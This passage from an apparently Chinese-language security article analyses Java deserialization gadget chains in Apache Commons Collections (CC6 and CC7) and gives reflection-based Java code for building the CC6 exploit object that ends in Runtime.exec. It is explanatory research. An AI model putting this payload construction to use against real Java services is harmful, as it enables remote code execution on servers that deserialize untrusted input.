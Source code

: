 [![](https://p2.ssl.qhimg.com/t01aabd42b0e89bbe76.png)](https://p2.ssl.qhimg.com/t01aabd42b0e89bbe76.png)

在第495行调用了`m.get`函数，所以后面又是我们熟悉的`LazyMap.get`的套路了。

整理一下利用链

```
Hashtable.readObject()
    -&gt; Hashtable.reconstitutionPut
    -&gt; LazyMap.equals =&gt; AbstractMapDecorator.equals =&gt; AbstractMap.equals
    -&gt; m.get() =&gt; LazyMap.get()
    -&gt; factory.transform() =&gt; ChainedTransformer.transform()
    -&gt; 前文构造的Runtime.getRuntime().exec()
```

### <a class="reference-link" name="5.%20%E5%88%A9%E7%94%A8%E9%93%BE%E6%9E%84%E9%80%A0"></a>5. 利用链构造

CommonsCollections6和7的exp构造比较复杂，这里单独拿出来讲一下。

<a class="reference-link" name="CommonsCollections6"></a>**CommonsCollections6**

经过前面的分析，我们可以知道CommonsCollections6需要将构造好的TiedMapEntry实例添加到HashSet的值上。

简单的方法就是直接add

```
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
HashSet map = new HashSet(1);
map.add(entry);
```

复杂一点，就是ysoserail里的实现方法，采用反射机制来完成

其思路主要为：
- 实例化一个HashSet实例
- 通过反射机制获取HashSet的map类属性
- 通过反射机制获取HashMap(map类属性)的table(Node&lt;K,V&gt;)类属性
- 通过反射机制获取Node的key类属性，并设置该key的值为构造好的TiedMapEntry实例
具体代码如下

```
HashSet map = new HashSet(1);
map.add("foo");
Field f = null;
try `{`
    f = HashSet.class.getDeclaredField("map");//获取HashSet的map Field对象
`}` catch (NoSuchFieldException e) `{`
    f = HashSet.class.getDeclaredField("backingMap");
`}`
Permit.setAccessible(f);// 设置map可被访问修改
HashMap innimpl = null;
innimpl = (HashMap) f.get(map);// 获取map实例的map类属性

Field f2 = null;
try `{`
  f2 = HashMap.class.getDeclaredField("table");// 获取HashMap的 table field
`}` catch (NoSuchFieldException e) `{`
  f2 = HashMap.class.getDeclaredField("elementData");
`}`
Permit.setAccessible(f2);// 设置HashMap的field 可被访问
Object[] array = new Object[0];
array = (Object[]) f2.get(innimpl);
Object node = array[0];// 获取Node&lt;k,v&gt;实例
if(node == null)`{`
  node = array[1];
`}`

```